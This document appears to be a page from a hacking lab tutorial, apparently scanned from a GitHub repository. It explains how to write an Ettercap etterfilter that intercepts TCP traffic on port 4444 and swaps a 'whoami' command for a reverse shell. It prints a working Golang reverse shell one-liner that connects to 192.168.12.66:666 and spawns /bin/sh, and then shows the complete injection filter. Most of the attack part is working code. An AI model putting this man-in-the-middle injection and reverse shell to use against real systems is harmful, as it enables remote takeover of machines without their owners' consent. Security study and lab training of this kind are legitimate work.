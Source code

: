 ```
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-

```

1. Create a new `etterfilter code` file named `whoami.ecf`  

    - `nano whoami.ecf`

2. Try to write a filter matching **Alice's source port** `4444` and **transport protocol** `TCP` as well as replacing `whoami` data with a **`reverse shell payload`** of your choice.

- In the end, your filter might look similar to this one, where **`<reverse_shell>`** contains the reverse shell payload you chose:

```

if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "<-..+++_Reverse_Shell_+++..->" );
    msg("###### ETTERFILTER: Fz3r0 substituted a HAPPY COMMAND >'whoami'< with an EVIL PAYLOAD >'reverse rhell'<). ######\n");
}

```

- Note: Quotation marks need to be [escaped](https://linux.die.net/abs-guide/escapingsection.html). 

- So, in case you want your filter to replace e.g. `whoami` with `echo -e "whoami\nroot"`, then the quotation marks around `whoami\nroot` would have to be escaped like this: 

    - `replace("whoami", "echo -e \"whoami\nroot\" " )`

        - **The following is an example `reverse shell` in `Golang` with quotation marks already escaped:**

```golang

echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &

```
- **This is how the full command will look like:**

```

if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER-TEXT: Fz3r0 substituted a HAPPY COMMAND >'whoami'< with an EVIL PAYLOAD >'reverse rhell'<). ######\n");
}


```
